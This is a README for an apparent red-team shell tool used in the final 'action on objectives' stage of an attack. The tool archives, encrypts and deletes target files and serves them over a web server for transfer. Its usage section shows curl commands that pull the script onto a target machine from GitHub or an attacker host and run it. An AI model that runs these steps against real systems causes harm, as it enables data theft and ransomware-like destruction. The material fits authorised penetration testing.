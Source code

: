 # Action on Objectives Phase

The last phase includes the measures that are necessary to achieve the actual goal. This includes different techniques, which are applied depending on the defined goal. For example, if data needs to be stolen, it can be copied and removed. Furthermore, techniques for encryption, manipulation, destruction of data can be applied. Another goal can be the impairment of the availability of the system.

This script serves as a tool for some specified actions like encrypt files or directories.

## Features

- Create a compressed tar archive of files or directories
- Unarchive compressed tar archive
- Encrypt files or directories
- Decrypt encrypted .gpg file

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/action-on-objectives/action-on-objectives.sh
sh action-on-objectives.sh -h
```
Local network:
```sh
# Host
sh action-on-objectives.sh -w
# Target
curl -LJO <Host>:8000/action-on-objectives.sh
sh action-on-objectives.sh -h
```

### Parameters

```
sh action-on-objectives.sh -h

Usage: action-on-objectives.sh [options]

Options:
-h                    Show this help message
-a <file, directory>  Archive and compress given files or directory
                      Specify directories without the last /
-u <file.tar.gz>      Extract the given tar archive
-e <file, directory>  Encrypt given file or directory (symmetric encryption with password)
-d <file.gpg>         Decrypt given file
-r                    Remove the original files

-w                    Serves a local web server for transferring files

Output:
-c                    No colours. Without colours, the output can probably be read better
-q                    Quiet. No banner and no advisory displayed
```

## Results

Results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information
